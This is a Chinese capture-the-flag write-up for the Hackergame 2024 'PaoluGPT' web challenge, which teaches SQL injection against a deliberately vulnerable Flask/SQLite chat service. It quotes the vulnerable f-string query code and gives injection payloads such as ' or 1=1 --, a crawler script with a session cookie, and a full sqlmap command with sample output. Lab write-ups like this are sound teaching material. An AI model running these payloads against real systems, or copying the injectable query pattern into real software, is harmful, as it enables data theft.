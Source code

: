 # PaoluGPT

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：web

- 题目分值：千里挑一（150）+ 窥视未知（200）

在大语言模型时代，几乎每个人都在和大语言模型聊天。小 Q 也想找一个方便使用的 GPT 服务，所以在熟人推荐下，他注册了某个 GPT 服务，并且付了几块钱。只是出乎小 Q 意料的是，他才用了几天，服务商就跑路了！跑路的同时，服务商还公开了一些用户的聊天记录。小 Q 看着这些聊天记录，突然发现里面好像有 flag……

**[题目附件下载](files/paolugpt.zip)**

**免责声明：本题数据来源自 [COIG-CQIA 数据集](https://modelscope.cn/datasets/m-a-p/COIG-CQIA/)。本题显示的所有该数据集中的数据均不代表 Hackergame 组委会的观点、意见与建议。**

提示：点击下面的「打开/下载题目」按钮会为你创建一个独立的题目环境，有效时间一小时。如果环境遇到问题，可以 [关闭环境](https://chal01-manager.hack-challenge.lug.ustc.edu.cn/docker-manager/stop?{token}) 后再试。

[打开/下载题目](https://chal01-manager.hack-challenge.lug.ustc.edu.cn/docker-manager/start?{token})

## 题解

本题的 idea 是 [@volltin](https://github.com/volltin/) 的。我做了实现。

本题是一道简单的 SQL 注入题，这一点从附件可以很明显发现：

```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

附件中甚至提供了 DBMS 是 SQLite 的信息，省去了一些猜测的精力。

对于不会 SQL 注入的同学，第一小问也可以写爬虫解决。

### 爬虫

最简单的爬虫使用 Python + requests 库就可以解决。因为网页的结构很简单，甚至不需要~~漂亮汤~~ Beautiful Soup 来解析 HTML。

```python
import requests
import re
from urllib.parse import urljoin, urlparse

LINK = re.compile(r'<a href="(.+)">')


def get_all_links(session, url):
    try:
        response = session.get(url, timeout=10)
        response.raise_for_status()
    except requests.RequestException as e:
        print(f"error on {url}: {e}")
        return []

    links = set()
    for i in LINK.findall(response.text):
        links.add(urljoin(url, i))

    return list(links)


def check_links_for_flag(session, links):
    for link in links:
        try:
            resp = session.get(link, timeout=10)
            resp.raise_for_status()
            if 'flag' in resp.text.lower():
                print(link)
        except requests.RequestException as e:
            print(f"error on {link}: {e}")


def main():
    url = "https://chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn:8443/list"

    session = requests.Session()
    session.cookies.set('session', 'eyJ0b2tlbiI6IjU6TUVRQ0lGN1BSYlBlT2NqSFExRExuNFROVHdwcHp1OTBxU3JBRVJrOWIwdnNDM3B2QWlBU2dZRmpFaEVITjlsYmdvS01MVDZmZFp1RWVIZm1sSXkvK0l4T2Yvb2pYQT09In0.Zyc6qw.RnUrVg6o5TDBuWuENMBztxVcu7o')

    links = get_all_links(session, url)
    print(f"Get {len(links)} links...")

    check_links_for_flag(session, links)


if __name__ == "__main__":
    main()
```

需要注意的是，为了增加人肉处理的难度（鼓励自动化解决问题），我特地在 flag 前面加了很多很多换行，因此需要拖到最下面或者搜索才能看到 flag。

### SQL 注入

#### 手动挡

对于查询：

```SQL
select title, contents from messages where id = 'conversation_id'
```

很明显我们需要让 `conversation_id` 包含 `'` 来做注入，以及用注释 `--` 来扔掉末尾不想要的符号。一个经典验证的例子是，当 `conversation_id` 为 `' or 1=1 --` 时，查询语句就变成了：

```SQL
select title, contents from messages where id = '' or 1=1 --'
```

这个查询恒成立。但是网站代码只会选择第一个显示：

```python
# database.py
def execute_query(s: str, fetch_all: bool = False):
    conn = sqlite3.connect("file:/tmp/data.db?mode=ro", uri=True)
    cur = conn.cursor()
    res = cur.execute(s)
    if fetch_all:
        return res.fetchall()
    else:
        return res.fetchone()

# main.py, view()
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

如果看了 `list()` 函数，会发现有个 `shown` 条件，因此构造成如下面的查询：

```SQL
select title, contents from messages where id = '' or shown = false --'
```

就能拿到第二个 flag 了（因为 `shown = false` 的只有一条）。

要通过这种方式拿到第一个 flag 也是可以的，只是会更复杂一些。考虑数据库的 `LIKE` 语法：

```SQL
select something from sometable where contents like '%flag%'
```

就可以把所有 `contents` 里面有 `flag` 字符串的行挑出来，因此第一个 flag 可以：

```SQL
select title, contents from messages where id = '' or shown = true and contents like '%flag%' --'
```

这样就得到了第一个 flag。除此之外，另一个方法是使用数据库的 `LIMIT` 和 `OFFSET` 语法：

```SQL
select title, contents from messages where id = '' or 1=1 limit 1 offset 123 --'
```

`limit 1` 表示限制输出 1 行，`offset 123` 表示跳过 123 行（即选择第 124 行）。然后和爬虫类似写个脚本即可。做一千次请求也能获取所有的 flag。

#### 自动挡

为什么不试试 [sqlmap](https://sqlmap.org) 呢？注意题目需要 session，因此调用 sqlmap 的时候必须附带这一信息：

```sh
sqlmap -a --cookie=session=eyJ0b2tlbiI6IjU6TUVRQ0lGN1BSYlBlT2NqSFExRExuNFROVHdwcHp1OTBxU3JBRVJrOWIwdnNDM3B2QWlBU2dZRmpFaEVITjlsYmdvS01MVDZmZFp1RWVIZm1sSXkvK0l4T2Yvb2pYQT09In0.Zyc6qw.RnUrVg6o5TDBuWuENMBztxVcu7o -u 'https://chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=f924cc11-2d09-43a0-bfd8-b2bd1faf9e4c'
```

接下来一路按回车就行。需要注意的是直接对着 `sqlmap` 的 stdout grep 可能是找不到 flag 的，因为：

```console
[WARNING] console output will be trimmed to last 256 rows due to large table size
```

注意到最后：

```console
[17:36:42] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/username/.local/share/sqlmap/output/chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn/dump/SQLite_masterdb/messages.csv'
```

所以去拿 flag 吧。不过如果希望更加熟悉 SQL 注入的话，看看 sqlmap 发了啥可能会有所帮助。这可以通过添加 `-vvv` 参数来实现。

## 附注

PaoluGPT 的代码有个小问题：如果 `conversation_id` 不存在，会返回 500 错误。但是不会影响求解题目。

